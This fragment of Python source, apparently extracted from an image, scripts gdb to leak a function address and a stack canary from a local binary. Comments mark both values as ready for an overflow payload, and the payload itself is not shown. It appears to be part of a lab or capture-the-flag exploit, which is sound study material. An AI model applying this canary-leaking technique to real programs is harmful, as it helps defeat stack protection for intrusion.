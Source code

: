 ```python
    gdb_process.expect("(gdb)")
    #gdb_process.sendline("break factor1")
    #gdb_process.expect("(gdb)")
    gdb_process.sendline("run")

    # Extracting address from factor1() function
    gdb_process.expect("(gdb)")
    gdb_process.sendline("p factor1")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor1 = gdb_process.before.decode('utf-8')
    match = re.search(r'0x[0-9a-f]+', address_factor1)
    if match:
       address_factor1_str = match.group(0)  # Extraer la dirección en formato hexadecimal
       address_factor1_int = int(address_factor1_str, 16)
       address_factor1_le = p64(address_factor1_int) # direccion de factor1 en formato little-endian lista para el payload
       gdb_process.sendline(" ") # prepara gdb para recibir el siguiente comando!
    else:
       print("No se pudo extraer la dirección de factor1().")
       exit(1)

    # We extract the memory address that will allow us to create a breakpoint to capture the canary already loaded in the stack.
    gdb_process.expect("(gdb)")
    gdb_process.sendline("disas factor2")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor2 = gdb_process.before.decode('utf-8')
    lines = address_factor2.splitlines()
    memory_addresses = [line.split()[0] for line in lines if '<+' in line]
    if len(memory_addresses) >= 7:
       seventh_memory_address = memory_addresses[6]
       gdb_process.sendline(" ")
       gdb_process.expect("(gdb)")
       gdb_process.sendline(f"break *{seventh_memory_address}")
       gdb_process.expect("(gdb)")
       gdb_process.sendline("continue")
    else:
       print("No hay suficientes direcciones de memoria en la salida")

    # we extract the canary
    gdb_process.expect("(gdb)")
    gdb_process.sendline("x/1gx $rbp-0x8")
    gdb_process.expect_exact("(gdb)", timeout=10)
    output_canary = gdb_process.before.decode('utf-8')
    canary_value = output_canary.split(':')[1].strip().split()[0]
    output_canary_int = int(canary_value, 16)
    output_canary_le = struct.pack('<Q', output_canary_int) # canary listo en formato little-endian para el payload
    gdb_process.sendline(" ")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("continue")

#    test code
#    gdb_process.expect("(gdb)")
#    gdb_process.sendline("disas factor2")
#    gdb_process.expect_exact("(gdb)", timeout=10)
#    address_breakpoint = gdb_process.before.decode('utf-8')
#    lines = address_breakpoint.splitlines()
#    memory_addresses_breakpoint = [line.split()[0] for line in lines if '<+' in line]
#    if len(memory_addresses_breakpoint) >= 20:
#       memory_address_bp = memory_addresses_breakpoint[19]
#       gdb_process.sendline(" ")
#       gdb_process.expect("(gdb)")
```